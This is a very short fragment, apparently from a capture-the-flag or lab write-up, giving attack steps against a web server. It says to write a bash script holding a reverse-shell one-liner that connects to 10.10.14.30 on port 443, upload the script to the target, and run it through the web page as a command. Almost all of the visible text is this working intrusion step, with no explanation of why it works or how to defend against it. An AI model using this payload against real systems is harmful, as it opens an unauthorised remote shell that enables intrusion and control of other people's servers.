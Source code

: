 Write shell file and upload it:  
#!/bin/bash  
  
bash -i >& /dev/tcp/10.10.14.30/443 0>&1  
  
Upload it and then run from web page as comand:  
$ bash shell